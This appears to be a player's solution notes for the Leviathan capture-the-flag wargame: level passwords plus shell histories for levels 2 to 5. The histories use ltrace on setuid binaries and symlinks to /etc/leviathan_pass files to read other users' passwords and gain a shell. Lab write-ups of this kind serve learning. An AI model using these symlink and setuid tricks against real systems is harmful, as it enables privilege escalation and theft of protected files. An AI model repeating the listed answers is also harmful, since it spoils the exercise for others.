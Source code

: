 # LEVIATHAN

## level 0
3QJ3TgzHDq
## level 1
NsN1HwFoyN
## level 2
    1  mktemp -d
    2  touch /tmp/tmp.UPkwjQdgjI/"test file.txt"
    3  ls -la /tmp/tmp.UPkwjQdgjI
    4  ltrace ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    5  ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.UPkwjQdgjI/test
    6  ls -la /tmp/tmp.UPkwjQdgjI
    7  chmod 777 /tmp/tmp.UPkwjQdgjI
    8  ./prinfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    9  ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    10  history
f0n8h2iWLP
## level 3
    1  pwd
    2  whoami
    3  ls -la
    4  ./level3
    5  ltrace level3
    6  ltrace ./level3
    7  ./level3
    8   leviathan3@gibson:~$ ./level3
        Enter the password> snlprintf
        [You've got shell]!
    9   $ whoami
        leviathan4
    10  $ cat /etc/leviathan_pass/leviathan4
        WG1egElCvO
    11  $ exit
    12  history
WG1egElCvO

## level 4
    1  pwd
    2  ls -la
    3  cd .trash
    4  ls
    6  ./bin
    7  echo 0011000001100100011110010111100001010100001101110100011000110100010100010100010000001010 | perl -lpe '$_=pack"B*",$_'
    8  history
0dyxT7F4QD

## level 5
    1  pwd
    2  whoami
    3  ls -la
    4  ./leviathan5
    5  ltrace ./leviathan5
    6  touch /tmp/file.log
    7  ./leviathan5
    8    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    9  ./leviathan5
    10  history
szo7HDB88w